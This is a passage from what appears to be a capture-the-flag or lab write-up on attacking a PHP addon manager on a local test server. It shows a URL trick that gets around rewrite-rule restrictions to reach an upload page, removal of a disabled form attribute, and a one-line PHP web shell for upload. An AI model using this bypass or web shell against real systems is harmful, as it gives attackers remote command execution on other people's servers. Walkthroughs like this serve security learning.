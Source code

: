 ```php
				header($_SERVER["SERVER_PROTOCOL"]." 404 Not Found", true, 404);
				die();
			}
		}
		break;
	default:
		echo "The addon manager must not be executed directly but only via<br>";
		echo "the provided RewriteRules:<br><hr>";
		echo "RewriteEngine On<br>";
		echo "RewriteRule ^addon-upload.php   addons/ots-man-addon.php [L]<br>";
		echo "RewriteRule ^addon-download.php addons/ots-man-addon.php [L]<br><hr>";
		echo "By commenting individual RewriteRules you can disable single<br>";
		echo "features (i.e. for security reasons)<br><br>";
		echo "<font size='-2'>Please note: Disabling a feature through htaccess leads to 404 errors for now.</font>";
		break;
}
?>
```

And we see that this catches both the `upload`and `download`cases --> we need a way to bypass this and an easy way to do so is using this url:

```http
http://localhost:60080/menu.php?addon=addons/addon-download.php&/addon-upload.php
```

As since the `addon-download.php`will be changed into:

```txt
RewriteEngine On  
RewriteRule ^addon-upload.php   addons/ots-man-addon.php [L]  
RewriteRule ^addon-download.php addons/ots-man-addon.php [L]
```

we can then access the upload after --> doing this we notice that the `Submit Query`form is still disabled --> we can simply edit the source code to remove this:

```html
<form action="[addon-upload.php](view-source:http://localhost:60080/addon-upload.php)" method="POST" enctype="multipart/form-data">
    <input type="file" name="addon" />
    <input type="submit" disabled="disabled" /><sup><font size="-2" color="red"> Disabled for security reasons.</font></sup>
</form>
```

We can simply delete this part of the code and then we're able to submit files! We can then upload a `php`shell with:

```php
<?php system($_GET['cmd']); ?>
```

Now when sending the request directly like this we get an error:
